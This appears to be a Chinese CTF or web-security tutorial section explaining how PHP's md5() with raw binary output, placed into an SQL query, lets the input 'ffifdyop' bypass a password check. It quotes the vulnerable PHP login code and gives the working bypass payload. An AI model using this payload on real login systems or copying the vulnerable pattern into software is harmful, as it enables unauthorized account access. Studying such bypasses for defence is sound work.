 # §5 PHP与SQL的综合Bypass

## §5.1 PHP的`md5()`

[PHP官方文档](https://www.php.net/manual/en/function.md5.php)对`md5()`的定义如下：

> `md5(string $string, bool $binary = false): string`
>
> - string
>
>   待加密的字符串
>
> - binary
>
>   可选。为`true`时返回16字节的二进制形式。

审计以下代码：

```php
$username = addslashes(......)
$password = md5(......,true);
$sql = "select * from users where username='$username' and password='$password'";
```

当`md5(...)`的前五个字节恰好符合正则表达式`\‘or\'[1-9]`，且后面的11个字节没有`'`时，拼接形成的SQL语句为`select * from users where username='...' and password=''or'???????????'`。

SQL在将字符串作为布尔值进行处理时，会尝试将前几个数字字符转化为整数（如果第一个字符不是数字，则会被当作`false`，并生成一个`Truncated incorrect INTEGER value: '...'`的警告）。转化为整数后，如果其为0，则被当作`false`，并生成一个`Truncated incorrect INTEGER value: '...'`的警告，反之为`true`：

```mysql
mysql> select * from users where password=''or'1abc';
......
13 rows in set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'0abc';
Empty set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'000abc';
Empty set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'001abc';
......
13 rows in set, 1 warning (0.00 sec)
```

经过穷举，`ffifdyop`的MD5值恰好满足以上所有条件，可以绕过登录系统的密码校验。

```php
$md5 = md5("ffifdyop",true); # 'or'6É].é!r,ùíb.
$sql = "select * from `admin` where password='$md5'";
echo $sql;
```


